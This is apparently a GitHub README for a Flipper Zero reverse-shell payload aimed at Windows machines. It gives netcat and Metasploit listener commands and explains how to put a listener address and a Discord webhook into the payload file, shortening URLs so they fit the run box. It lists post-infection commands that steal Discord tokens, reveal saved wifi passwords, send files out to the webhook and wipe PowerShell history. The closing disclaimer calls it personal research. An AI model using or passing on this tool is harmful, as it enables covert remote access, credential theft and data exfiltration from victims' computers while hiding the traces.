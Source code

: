 # Reverse shell for Flipperzero

# Setup

1. listener setup
```
$ nc -nvlp <port_number>
```
or metasploit
```
$ use multi/handler
$ set payload windows/x64/shell/reverse_tcp
$ set lhost <ip address>
$ set lport <port number>
$ run
```

2. Insert the IP address and Port of your listener into the ReverseShell.txt file
3. Insert discord webhook for exfiltrating files to such in the ReverseShell.txt

# Shorten URLs
shorten the url and your webhook in ReverseShell.txt
  - stays in run box char limit
  - faster execution
  - bitly or any service will work

# Disclaimer
I am not responsible for the usage of this utility, it is simply for researching and experimentation for myself. The user, YOU take full responsibility for your actions.

# Have fun!
Additional commands after infection

  /tgrizzly
  - exfiltrates discord tokens and saves them to C:\temp\output.txt

  /wifi
  - shows saved wifi passwords

  /discord (filename)
  - send the file to your discord webhook

  /clean
  - removes powershell history
